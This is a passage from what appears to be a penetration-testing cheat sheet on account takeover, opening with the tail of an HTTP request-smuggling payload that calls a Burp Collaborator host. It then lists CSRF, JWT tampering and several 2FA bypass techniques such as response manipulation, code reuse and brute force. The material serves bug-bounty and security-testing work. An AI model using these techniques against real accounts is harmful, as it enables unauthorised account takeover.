     0

    GET http://something.burpcollaborator.net  HTTP/1.1
    X: X
    ```
    
Hackerone reports exploiting this bug
* https://hackerone.com/reports/737140
* https://hackerone.com/reports/771666

## Account Takeover via CSRF

1. Create a payload for the CSRF, e.g: "HTML form with auto submit for a password change"
2. Send the payload

## Account Takeover via JWT

JSON Web Token might be used to authenticate an user. 

* Edit the JWT with another User ID / Email
* Check for weak JWT signature 

## 2FA Bypasses

### Response Manipulation

In response if `"success":false`
Change it to `"success":true`

### Status Code Manipulation

If Status Code is **4xx**
Try to change it to **200 OK** and see if it bypass restrictions

### 2FA Code Leakage in Response

Check the response of the 2FA Code Triggering Request to see if the code is leaked.

### JS File Analysis

Rare but some JS Files may contain info about the 2FA Code, worth giving a shot

### 2FA Code Reusability

Same code can be reused

### Lack of Brute-Force Protection

Possible to brute-force any length 2FA Code

### Missing 2FA Code Integrity Validation

Code for any user acc can be used to bypass the 2FA
